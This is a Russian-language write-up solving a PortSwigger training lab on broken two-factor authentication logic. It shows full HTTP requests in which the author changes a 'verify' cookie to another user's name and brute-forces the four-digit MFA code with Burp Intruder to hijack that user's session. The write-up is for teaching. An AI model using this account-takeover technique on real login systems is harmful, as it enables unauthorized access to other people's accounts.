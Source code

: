 ```yaml
---
title: "2FA broken logic"
date: 2025-09-11
tags: [web, authentication, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/authentication-vulnerabilities/vulnerabilities-in-multi-factor-authentication/authentication/multi-factor/lab-2fa-broken-logic"
classes: wide
---
```


В данной лабе нарушена логика двухфакторной аутентификации. Для прохождения нужно получить доступ к аккаунту `carlos`. Даны креды от нашего пользователя `wiener`:`peter`.

```
https://0aa300a704e0a59a81867f920029008c.web-security-academy.net
```

## Solution

Сразу пойду на страницу логина, чтобы собрать все запросы:

Получаею страницу для входа:

```http
GET /login HTTP/2
Host: 0aa300a704e0a59a81867f920029008c.web-security-academy.net
Cookie: session=LQDyifn6acpYrKiyvaAXblZiWDQObt25
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aa300a704e0a59a81867f920029008c.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Ввожу данные:

```http
POST /login HTTP/2
Host: 0aa300a704e0a59a81867f920029008c.web-security-academy.net
Cookie: session=LQDyifn6acpYrKiyvaAXblZiWDQObt25
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aa300a704e0a59a81867f920029008c.web-security-academy.net/login
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://0aa300a704e0a59a81867f920029008c.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

username=wiener&password=peter
```

Редирект на форму ввода кода:

```http
GET /login2 HTTP/2
Host: 0aa300a704e0a59a81867f920029008c.web-security-academy.net
Cookie: session=GuGvuYdgcYBbmadL3h4qUABwMvGbPjN8; verify=wiener
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aa300a704e0a59a81867f920029008c.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Отправка кода:

```http
POST /login2 HTTP/2
Host: 0aa300a704e0a59a81867f920029008c.web-security-academy.net
Cookie: session=GuGvuYdgcYBbmadL3h4qUABwMvGbPjN8; verify=wiener
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aa300a704e0a59a81867f920029008c.web-security-academy.net/login2
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Origin: https://0aa300a704e0a59a81867f920029008c.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

mfa-code=0115
```

Переход на страницу аккаунта:

```http
GET /my-account HTTP/2
Host: 0aa300a704e0a59a81867f920029008c.web-security-academy.net
Cookie: session=LQDyifn6acpYrKiyvaAXblZiWDQObt25
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aa300a704e0a59a81867f920029008c.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

После ввода логина и пароля сайт установил мне `Cookie` значение `verify=winer`. Попробую отправить запрос `GET /login2`, изменив значение `verify` на `carlos`.

```http
GET /login2 HTTP/2
Host: 0aa300a704e0a59a81867f920029008c.web-security-academy.net
Cookie: session=GuGvuYdgcYBbmadL3h4qUABwMvGbPjN8; verify=carlos
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aa300a704e0a59a81867f920029008c.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Получил форму ввода кода:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_2FA_broken_logic/1.png){: height="200" .align-center}

Попробую подобрать нужный пароль через `Intruder` простым брутфорсом:

```http
POST /login2 HTTP/2
Host: 0aa300a704e0a59a81867f920029008c.web-security-academy.net
Cookie: session=GuGvuYdgcYBbmadL3h4qUABwMvGbPjN8; verify=carlos
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aa300a704e0a59a81867f920029008c.web-security-academy.net/login2
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Origin: https://0aa300a704e0a59a81867f920029008c.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

mfa-code=§code§
```

Настройки пейлоада:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_2FA_broken_logic/2.png){: height="200" .align-center}

Провел атаку и отсортировал по коду ответа. При правильном коде я должен получить ответ `302`:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_2FA_broken_logic/3.png){: height="200" .align-center}

Вытащу значение `session` из `Cookie` ответа и вставлю в браузере для входа:

```http
HTTP/2 302 Found
Location: /my-account?id=carlos
Set-Cookie: session=RaBbH8fs2OGpCmO1fscpJQXrw5iivK5R; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_2FA_broken_logic/4.png){: height="200" .align-center}

Обновил страницу. И вот я залогинился)

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_2FA_broken_logic/5.png){: height="200" .align-center}
